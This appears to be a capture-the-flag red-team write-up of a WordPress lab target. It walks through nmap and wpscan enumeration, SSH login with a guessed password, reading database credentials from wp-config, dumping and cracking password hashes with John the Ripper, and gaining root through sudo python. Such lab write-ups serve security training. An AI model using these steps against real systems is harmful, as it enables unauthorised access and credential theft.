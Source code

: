 # Red Team: Summary of Operations

## Table of Contents
- Network Topology
- Host Discovery
- Attacking Target 1
    - Exposed Services
    - Critical Vulnerabilities
    - Exploitation

## Network Topology

The Diagram below depicts the network topology of a subnet of `192.168.1.1/24` including an attacker Kali Linux machine an ELK-Stack monitoring system, and a few Linux Ubuntu webservers. The Kali-Linux machine is used to attack vulnerable machines on the network. The diagram below shows the network diagram, the IP addresses, and the functions of each machines.



## Scanning and Host Discovery

Nmap is used to scan the `192.168.1.1/24` subnet for host discovery, operating system detection, identifying open ports and their exposed services.

The following hosts with IP addresses, operating systems, open ports were discovered using 

`nmap -A -sV 192.168.1.1/24`

| Name      | Function           | IP Address    | Public IP Address | Operating System |
|-----------|--------------------|---------------|-------------------|---------------|
| Jump-Box  | Gateway            | 192.168.1.1   | 125, 129, 445, 2179, 3389     | Linux Ubuntu     |
| Web-1     | Attacker           | 192.168.1.90  | 22    | Kali Linux      |
| ELK-server| Monitoring ELK-Stack server        | 192.168.1.100           | 22, 9200     | Linux Ubuntu     |
| Web-2     | Web server         | 192.168.1.105 | 22, 80     | Linux Ubuntu     |
| Web-3     | Target Web server  | 192.168.1.110 | 22, 80. 111. 139, 445     | Linux Ubuntu     |
| ELK-server| Target Web server  | 192.168.1.115 | 22, 80. 111. 139, 445       | Linux Ubuntu     |

Note: The option `-A` is for operating system detection and service version detection and very verbose, however it is very noisy. The snapshot below shows the exposed services on the machines using `nmap -sV 192.168.1.1/24` as it has a shorter output.

![nmap output](Images/nmap.png)

## Attacking Target 1

### Reconnaissance and scanning

All the public webpages on the Target 1 were visited to find any exposed sensitive information. The screenshot below shows that the web servvr uses the WordPress for content management.

![WordPress](Images/WordPress.PNG)

`wpscan` scanner that includes the WordPress vulnerability database is used to enumerate the usernames of the WordPress by brute forcing the author ID by

`wpscan --url 192.168.1.110/wordpress --enumerate u`

![wp-scan](Images/wp-scan.PNG)

### Exploitation

Two users `michael` and `steven` were discovered. The first obvious guess for a password would be the same as the username. It appeared to be the case for the user `michael`. Therefore, both the username and the password are `michael`. To secure a user shell in the Target1

`ssh michael@192.168.1.110`

The content of the website folder `/var/www` was investigated and hash values of two flags were found. One located in the `/var/www/html/service.html` while the other in `/var/www/flag2.txt`

The hash value of the flag1 is ??????????????????

![flag1](Images/flag1.PNG)

The hash value of the flag2 is ??????????????????

![flag2](Images/flag2.PNG)



The login information to access the database is stored in the `/var/www/html/wordpress/wp-config`

![wp-config](Images/wp-config.PNG)


To access the SQL database using `root` as the username, `R@3nSecurity` as the password and `localhost` as the host:

`mysql -u root -p'R@3nSecurity' -h localhost`

![mysql](Images/mysql.PNG)

To see all the databases

`SHOW databases;`

![database](Images/database.PNG)

To use the `wordpress` database and print the content of the `wp_posts`

`USE wordpress;`

`SELECT * FROM wp_posts;`

![tables](Images/tables.PNG)

Two other flags were found in `wp_posts` table of `wordpress` database.

The hash value of the flag3 is ?????????????????

The hash value of the flag4 is ?????????????????????????

![flag34](Images/flag34.PNG)

Exploitable information was found in the `wp_users` table of the `WordPress` database 
The password hash values of the both `michael` and `steven` users are found in the 'wp_users'

`SELECT * FROM wp_users`

![wp_users](Images/wp_users.PNG)

The password hashes were dumped into the Kali machine as `pass.txt` and cracked with the John the Ripper program.

`john pass.txt`

![john](Images/john.PNG)

The 'steven' password found to be `pink84`

Login to the Target 1 machine with 

`# ssh steven@192.168.1.110`

![steven](Images/steven.PNG)

To check the sudo privileges of the user `steven`

`sudo -l`



![prev](Images/prev.PNG)

The user `steven` has the privilege of running Python scripts as the root. To spawn a tty Bash shell. The flag 4 is also printed after spawning the shell.

`sudo python -c 'import pty; pty.spawn("/bin/bash")'`

![python](Images/python.PNG)

### Vulnerability assessment